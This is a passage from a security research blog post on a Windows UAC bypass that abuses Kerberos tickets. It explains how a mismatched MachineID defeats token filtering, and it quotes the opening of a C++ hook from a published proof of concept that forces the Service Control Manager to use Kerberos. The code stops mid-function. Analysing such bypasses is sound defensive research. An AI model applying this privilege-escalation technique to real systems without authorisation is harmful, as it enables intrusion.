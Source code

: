 ![image-20230727162752969](/assets/posts/2023-07-29-revisiting-a-uac-bypass-by-abusing-kerberos-tickets/image-20230727162752969.png)

At this point, due to having a MachineID in the ticket that is different from the LsapGlobalMachineID value, network token filtering will no longer take place. You can use Kerberos authentication to access the Service Control Manager (SCM) named pipe or TCP using the HOST/HOSTNAME or RPC/HOSTNAME SPN. It's important to note that the Win32 API of SCM always uses Negotiate authentication. James Forshaw has created a simple Proof of Concept (POC) named [*SCMUACBypass.cpp*](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) which hooks the AcquireCredentialsHandle and InitializeSecurityContextW APIs to change the authentication package name (pszPackage) used by SCM to Kerberos, enabling SCM to use Kerberos during local authentication, as shown below.

```c++
SECURITY_STATUS SEC_ENTRY AcquireCredentialsHandleWHook(
    _In_opt_  LPWSTR pszPrincipal,                // Name of principal
    _In_      LPWSTR pszPackage,                  // Name of package
    _In_      unsigned long fCredentialUse,       // Flags indicating use
    _In_opt_  void* pvLogonId,                   // Pointer to logon ID
    _In_opt_  void* pAuthData,                   // Package specific data
    _In_opt_  SEC_GET_KEY_FN pGetKeyFn,           // Pointer to GetKey() func
    _In_opt_  void* pvGetKeyArgument,            // Value to pass to GetKey()
    _Out_     PCredHandle phCredential,           // (out) Cred Handle
    _Out_opt_ PTimeStamp ptsExpiry                // (out) Lifetime (optional)
)
{
    WCHAR kerberos_package[] = MICROSOFT_KERBEROS_NAME_W;
    printf("AcquireCredentialsHandleHook called for package %ls\n", pszPackage);
    if (_wcsicmp(pszPackage, L"Negotiate") == 0) {
        pszPackage = kerberos_package;
```
